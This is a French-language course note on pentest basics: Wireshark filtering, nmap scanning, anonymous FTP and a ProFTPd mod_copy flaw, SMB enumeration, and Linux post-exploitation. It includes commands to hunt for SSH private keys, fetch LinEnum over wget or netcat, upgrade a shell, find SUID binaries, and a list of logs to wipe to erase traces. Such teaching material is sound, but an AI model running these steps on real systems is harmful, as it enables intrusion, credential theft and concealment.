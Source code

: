 =============================================
4. CyberSécurité - Les problèmes du système
=============================================

On rappelle d'une adresse IP est l'adresse d'une machine (127.0.0.1 = adresse IP locale). Il existe
des adresses publiques (n'importe qui peut vous trouver avec) ou des adresses privées (seuls ceux sur le même
réseau peuvent vous trouver).

Un protocole décrit comment sont échangés les données (ex: TCP, UDP).

Les données sont échangées entre deux machines (donc deux IP), en passant par un port et utilisant un protocole.

Le cours sur le réseau contient toutes les informations détaillées.

exploit-db.com
	Le site exploit-db (et son package associé : exploitdb, avec la commande searchsploit) permet de voir
	toutes les failles reportées d'un logiciel.

	Autres : https://attackerkb.com/, https://www.rapid7.com/, https://cve.mitre.org/cve/.

Fuites de données
	Il est important de vérifier tous les échanges de données faits sur un système car on peut s'apercevoir que certains
	sont faits a notre insu.

	Monitor
		Vous pouvez surveiller les échanges avec Wireshark et en utilisant des filtres (fait sous windows)

			* ip.src == valeur ou ip.dest == valeur
			* tcp.port == valeur ou udp.port == valeur
			* on regarde http.request.method == GET (ou POST)
			* :code:`&&` : et logique, :code:`||` : ou logique et :code:`!=` : différent de

		Une fois la liste des requêtes sous la fin, vous avez la barre des filtres pour appliquer les filtres sur le modèle
		précédent. Lorsque vous trouvez une ligne intéressantes, vous pouvez faire clique droit > suivre > flux TCP par exemple
		pour voir de façon claire les informations échangées (remplacez TCP par le protocole a suivre).

		Vous pouvez utiliser Fichier > Export et choisir par exemple http pour récupérer des fichiers téléchargés par exemple.

	Vidéo de présentation et d'un exemple : https://www.youtube.com/watch?v=yZTPMoYY2CA

Explorer un ordinateur
	Vous pouvez trouver des vulnérabilités, des services et applications en scannant une machine depuis son IP. Par exemple
	vous pouvez trouver les ports ouverts d'une machine.

	:code:`nmap` est une commande qui vous permet de scanner une machine pour récolter des informations.

		* Vous avez plusieurs types de scans

			* :code:`-sL` : liste toutes les cibles
			* :code:`-sn` : ne pas regarder les ports

		* Vous avez ensuite le protocole

			* scan UDP : :code:`-sU`
			* scan TCP : :code:`-sS` ou :code:`-sT`

		* :code:`-p <port>` : définir un port
		* :code:`-p- <port-port>` : définir un interval de ports
		* :code:`-T<n>` : timing template, n désigne l'agressivité de 0 (discret) à 5 (agressif)

		* vous pouvez lier un script a exécuter

			* :code:`--script=<lua script>` : https://nmap.org/nsedoc/, https://nmap.org/nsedoc/scripts/

		* :code:`-O` : détecter l'OS
		* :code:`-A` : détecter l'OS + version, scan avec script et table de routage
		* :code:`-v` : affiche toutes les informations

	Se protéger ?

		*
			Non testé mais il existe des outils Intrusion Detection (IDS) & Prevention Systems (IPS)
			qui surveillent votre réseau comme `Snort <https://www.snort.org/>`_ et `suricata <https://suricata-ids.org/>`_
			a installer sur un pare-feu (ex: `pfsense <https://www.pfsense.org/>`_). Ils seraient capables de détecter
			des tentatives de scans, de reverse scripting, traffic dangereux etc.

		*
			Je sais que sur OVH, vous pouvez installer un firewall externe pour bloquer les accès a votre VPS qui ne sont
			pas conformes a des règles que vous avez défini (ips, ports, et protocoles).

	Vidéo de présentation et d'un exemple : https://www.youtube.com/watch?v=StmtQKoFiWg

Transferts de fichiers via FTP
	FTP (File Transfert protocol) est un protocole de transfert de fichiers utilisé pour déposer et télécharger
	des fichiers sur une autre machine (dite serveur). Le protocole FTP utilise le port 21 (connexion, ... ou le port 22 si sftp)
	mais les données transférés passent par le port 20.

	Certains serveurs ont une utilisateur ftp :code:`anonymous` c'est-à-dire qui n'a pas besoin de mot de passe et qui certaines
	fois peut faire des choses sur le serveur qu'il ne devrait pas pouvoir faire. Il est donc recommandé de le désactiver.

	En tant qu'utilisateur anonyme, nous ne sommes pas associé a une session et n'avons donc pas des permissions restreintes,
	si par exemple un script que nous avons déposé est exécuté, alors nous pourrions obtenir une porte dérobée sur le serveur.

	Vous pouvez utilsez :code:`FileZilla` sous windows pour vous connecter en ftp. Sinon en ligne de commande
	:code:`ftp <ip>`.

		* :code:`ls` : liste les fichiers/dossiers d'un répertoire
		* :code:`cd` : se déplacer
		* :code:`put` : déposer un fichier sur le serveur
		* :code:`get` : récupérer un fichier sur le serveur

	Voici une vidéo + exemple : https://www.youtube.com/watch?v=i-jqFYTPEV4

	Une faille existe dans la version 1.3.5 ProFTPd dont le module mod_copy permet avec les commandes
	:code:`SITE CPFR <file>` (copie) et :code:`SITE CPTO <path>` (coller). Si vous êtes un utilisateur anonyme, vous pouvez
	déplacer n'importe quel fichier vers n'importe quel endroit.

Transferts de fichiers via SMB/NFS
	FTP est un protocole souvent utilisé pour partager des fichiers de façon externe. En interne, les protocoles
	SMB (~windows) ou NFS (~linux) sont majoritairement utilisés.

	Samba est un outil qui relie des infrastructures utilisant l'un des deux protocole et uniformise les échanges. Les échanges
	faits sont encryptés par défaut donc assez sécurisés. Vous pouvez ainsi relier tous les ordinateurs, photocopieuses, imprimantes
	d'une entreprise à un même dossier :code:`share` dont le contenu sera commun à toutes.

	enum (enum4linux)
		Télécharger ici l'alternative de enum.exe `enum4linux.pl <https://github.com/CiscoCXSecurity/enum4linux/blob/master/enum4linux.pl>`_
		sachant que je n'ai pas trouvé comment faire sous windows.

			* utilisation : :code:`./enum4linux.pl <options> <ip>`
			* :code:`-U` : liste des utilisateurs
			* :code:`-M` : liste des machines
			* :code:`-S` : liste des shares
			* :code:`-o` : infos sur le système
			* :code:`-i` : infos sur les imprimantes
			* :code:`-v` : affiche tout ce qui est fait

		Note: vous devez installer :code:`smbclient` pour utiliser enum4linux.

		Commades :

			* connecter a un dossier partagé : :code:`smbclient //IP/nom_share`
			* Vous pouvez tester sans mot de passe
			* Les commandes sont les mêmes que plus haut en FTP (ls, cd, get, put, pwd, more).
			* télécharger tous le fichiers d'une share : :code:`smbget -R  smb://IP/nom_share`

	Voici une vidéo + exemple : https://www.youtube.com/watch?v=HscyCbModk4

	En utilisant :code:`nmap`, vous pouvez explorer les utilisateurs et les :code:`shares` avec la commande
	code:`nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse ip`, sachant que 445 est le port utilisé
	par Samba (port 139 avant 2000).

Privilèges
	Un utilisateur doit généralement escalader en privilèges pour faire certaines actions, c'est-à-dire prouver qu'il a par exemple
	les droits :code:`administrateur` pour modifier la machine (ex: le exécuter en tant qu'administrateur sous Windows par exemple
	ou sudo/yum/... sous linux).

	Généralement, vous cherchez a obtenir un compte avec un maximum de permissions (escalade) ou alors d'autre comptes avec les même
	permissions que vous mais accès a d'autres données (horizontal).

Piratage
	Une fois que vous avez accès à la machine via un invite de commande (ex: reverse shell qui appelle une commande netcat
	qui envoi un shell sur votre machine).

		* vous pouvez utiliser :code:`echo $0` pour obtenir le chemin (donc nom) de votre shell
		* vous pouvez essayer :code:`python -c 'import pty; pty.spawn("/bin/bash")'` pour passer à bash
		* ou directement :code:`bash` si ça marche
		* vous pouvez utiliser :code:`whoami` pour voir qui vous êtes (les utilisateurs les plus important sont ceux ayant les droits root : /etc/sudoers)
		* chercher des informations

			* clef ssh : :code:`find / -name id_rsa 2> /dev/null`
			* sauvegardes
			* fichiers sensibles, mot de passes
			* des informations sur la machine (noyau, version, ...)

				* noyau, version
				* processus, ... qui pourraient être vulnérables
				* scripts de sauvegarde (exploit crontabs)
				* fichier/dossiers avec des mauvaises configurations (permissions, etc.)
				* https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation
				* https://payatu.com/guide-linux-privilege-escalation
				*

			* Outil : LinEnum (https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)

				* récupérer : :code:`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh` ou ftp/...
				* alternative

					* dans /tmp, sur l'attaqué (IP) on lit le fichier : :code:`nc -l -p 1337 > LinEnum.sh`
					* sur l'attaquant on écrit le fichier a IP : :code:`nc IP 1337 < LinEnum.sh`

				* :code:`chmod +x LinEnum.sh` et :code:`./LinEnum.sh`


			* ...

		* effacer ses traces

			* :code:`/var/log/auth.log` : connexion ssh
			* :code:`/var/log/syslog` : pare-feu
			* :code:`/var/log/<service>` : apache (serveur web, access.log)... les logs d'un service.

	Vidéo d'explication : https://www.youtube.com/watch?v=_SMxZPne5QU

Piratage : SUID
	SUID correspond a une permission qui une fois ajoutée fait qu'un fichier est exécuté avec les droits de son créateur
	donc un fichier .sh de root est exécuté avec les permissions root.

	https://gtfobins.github.io/ : liste de fichiers binaires qui si la machine n'est pas bien configurée, alors peut
	être utilisés pour élever ses privilèges.

		* :code:`find / -perm -u=s -type f 2>/dev/null`